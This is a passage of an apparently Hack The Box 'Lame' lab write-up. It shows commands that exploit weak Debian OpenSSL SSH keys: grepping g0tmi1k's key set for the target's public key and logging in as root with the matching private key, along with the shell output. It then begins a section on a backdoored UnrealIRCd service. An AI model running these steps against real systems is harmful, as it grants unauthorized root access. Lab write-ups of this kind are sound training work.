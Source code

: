 We will use [**g0tmi1k's**](https://github.com/g0tmi1k/debian-ssh) repo to exploit this vulnerability.

```shell
cfx:  ~/Documents/htb/lame/debian-ssh/common_keys  |master ?:1 ✗|
→ ls
debian_ssh_dsa_1024_x86.tar.bz2  debian_ssh_rsa_2048_x86.tar.bz2
cfx:  ~/Documents/htb/lame/debian-ssh/common_keys  |master ?:1 ✗|
→ tar jxf debian_ssh_rsa_2048_x86.tar.bz2
```
After extracting `debian_ssh_rsa_2048_x86.tar.bz2`, we can use `grep` and `lr` for recursive search to just display the filename with the public key.

```shell
cfx:  ~/Documents/htb/lame/debian-ssh/common_keys/rsa/2048  |master ?:1 ✗|
→ grep -lr AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== *.pub
57c3115d77c56390332dc5c49978627a-5429.pub
```
Now we can use the matching private key, but first we need to `chmod 600` the key to own it and then SSH to box as `root`:

```shell
cfx:  ~/Documents/htb/lame/debian-ssh/common_keys/rsa/2048  |master ?:1 ✗|
→ ssh -i 57c3115d77c56390332dc5c49978627a-5429 root@10.10.10.3
Last login: Sun Sep 13 11:22:15 2020 from 10.10.14.17
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
root@lame:~# cat root.txt
92caac3be140ef******************
root@lame:~# exit
logout
```
### PrivEsc3 : UnrealIRCd Backdoored

Looking the listening services on the machine, we can see port `6697` which could be IRC over SSL.

```shell
daemon@lame:/$ netstat -tnlp
netstat -tnlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:512             0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:513             0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:2049            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:514             0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:8009            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:6697            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:1099            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:6667            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -
```